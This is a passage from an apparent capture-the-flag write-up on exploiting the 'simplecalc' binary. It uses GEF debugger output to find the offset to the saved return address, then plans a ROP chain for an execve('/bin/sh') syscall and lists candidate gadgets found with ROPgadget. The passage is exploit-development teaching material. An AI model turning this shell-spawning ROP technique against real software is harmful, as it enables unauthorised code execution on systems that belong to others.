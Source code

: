 ```
     0x401542 <main+447>       mov    rdi, rax
     0x401545 <main+450>       call   0x4228d0 <memcpy>
 →   0x40154a <main+455>       mov    rax, QWORD PTR [rbp-0x10]
     0x40154e <main+459>       mov    rdi, rax
     0x401551 <main+462>       call   0x4156d0 <free>
     0x401556 <main+467>       mov    eax, 0x0
     0x40155b <main+472>       jmp    0x401588 <main+517>
     0x40155d <main+474>       mov    edi, 0x494402
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "simplecalc", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40154a → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x000000000040154a in main ()
gef➤  search-pattern 0x13290b34
[+] Searching '0x13290b34' in memory
[+] In '[heap]'(0x6c3000-0x6e9000), permission=rw-
  0x6c4a88 - 0x6c4a98  →   "\x34\x0b\x29\x13[...]"
  0x6c8be0 - 0x6c8bf0  →   "\x34\x0b\x29\x13[...]"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffb0c8 - 0x7fffffffb0d8  →   "\x34\x0b\x29\x13[...]"
  0x7fffffffde60 - 0x7fffffffde70  →   "\x34\x0b\x29\x13[...]"
gef➤  i f
Stack level 0, frame at 0x7fffffffdeb0:
 rip = 0x40154a in main; saved rip = 0x0
 Arglist at 0x7fffffffdea0, args:
 Locals at 0x7fffffffdea0, Previous frame's sp is 0x7fffffffdeb0
 Saved registers:
  rbp at 0x7fffffffdea0, rip at 0x7fffffffdea8
```

So we can see that the offset between the start of our input and the return address is `0x7fffffffdea8 - 0x7fffffffde60 = 0x48`, which will be `18` integers. Now for what to execute when we get the return address. Since the binary is statically linked and there is no PIE, we can just build a rop chain using the binary for gadgets and without an infoleak. The ROP Chain will essentially just make an execve syscall to `/bin/sh`. There are four registers that we need to control in order to make this syscall (checkout https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/ for more details):

```
rax:  0x3b              Specify execve syscall
rdi:  ptr to "/bin/sh"  Specify file to run
rsi:  0x0               Specify no arguments
rdx:  0x0               Specify no environment variables
```

To do this, we will need gadgets to control those four register. I typically like to go with gadgets like `pop rax; ret`, since it makes it simple. We will also need a gadget to write the string `/bin/sh` somewhere in memory that we know. Let's find our gadgets using ROPGadget (checkout https://github.com/JonathanSalwan/ROPgadget ):

```
$ python3 ROPgadget.py --binary simplecalc | grep "pop rax ; ret"
0x000000000044db32 : add al, ch ; pop rax ; ret
0x000000000040b032 : add al, ch ; pop rax ; retf 2
0x000000000040b02f : add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x000000000040b030 : add byte ptr [rax], al ; add al, ch ; pop rax ; retf 2
0x00000000004b0801 : in al, 0x4c ; pop rax ; retf
0x000000000040b02e : in al, dx ; add byte ptr [rax], 0 ; add al, ch ; pop rax ; retf 2
0x0000000000474855 : or dh, byte ptr [rcx] ; ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
0x000000000044db34 : pop rax ; ret
0x000000000045d707 : pop rax ; retf
0x000000000040b034 : pop rax ; retf 2
0x0000000000474857 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
```